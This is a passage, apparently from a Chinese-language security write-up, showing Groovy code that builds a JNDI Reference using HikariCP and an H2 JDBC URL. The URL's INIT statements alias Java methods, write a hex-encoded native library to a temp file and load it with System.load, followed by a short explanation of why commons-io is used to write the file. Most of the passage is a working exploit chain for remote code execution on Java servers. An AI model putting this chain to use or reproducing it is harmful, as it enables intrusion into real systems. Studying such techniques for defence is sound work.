 ```plain
list << "DROP ALIAS IF EXISTS INVOKE_STATIC_METHOD"
list << "DROP ALIAS IF EXISTS CLASS_FOR_NAME"

// alias some external Java methods
list << "CREATE ALIAS CREATE_FILE FOR 'java.io.File.createTempFile(java.lang.String, java.lang.String)'"
list << "CREATE ALIAS WRITE_FILE FOR 'org.apache.commons.io.FileUtils.writeByteArrayToFile(java.io.File, byte[], boolean)'"
list << "CREATE ALIAS INVOKE_METHOD FOR 'org.apache.commons.beanutils.MethodUtils.invokeMethod(java.lang.Object, java.lang.String, java.lang.Object)'"
list << "CREATE ALIAS INVOKE_STATIC_METHOD FOR 'org.apache.commons.beanutils.MethodUtils.invokeExactStaticMethod(java.lang.Class, java.lang.String, java.lang.Object)'"
list << "CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)'"

// use java.io.File.createTempFile() to create a blank file with `.so` extension
list << "SET @file=CREATE_FILE('$prefix', '.so')"

// read native library file and encode it to hex
def content = new File(lib_path).bytes.encodeHex().toString()
// split it into several chunks to avoid SQL length limit
def data = content.toList().collate(500)*.join()

// write the chunks to the file (append mode)
for (d in data) {
   list << "CALL WRITE_FILE(@file, X'$d', TRUE)"
}

// invoke file.getAbsolutePath() to get the absolute path of the temp file
list << "SET @path=INVOKE_METHOD(@file, 'getAbsolutePath', NULL)"
// invoke java.lang.System.load() to load the native library
list << "SET @clazz=CLASS_FOR_NAME('java.lang.System')"
list << "CALL INVOKE_STATIC_METHOD(@clazz, 'load', @path)"

// use INIT property to execute multi SQL statements, and each statement must be separated by `\;`
def url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=${list.join('\\;')}\\;"

def ref = new Reference("javax.sql.DataSource", "com.zaxxer.hikari.HikariJNDIFactory", null)
ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
ref.add(new StringRefAddr("jdbcUrl", url));

return ref
```

这里有几个注意点

首先因为自 Java 9 引入的模块化机制, 不能直接使用 `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` 写文件, 因此需要找到一个来自第三方依赖的可以写文件的静态方法

`org.apache.commons.io.FileUtils#writeByteArrayToFile(java.io.File, byte[], boolean)`

```plain
public static void writeByteArrayToFile(File file, byte[] data, boolean append) throws IOException {
    writeByteArrayToFile(file, data, 0, data.length, append);
}
```
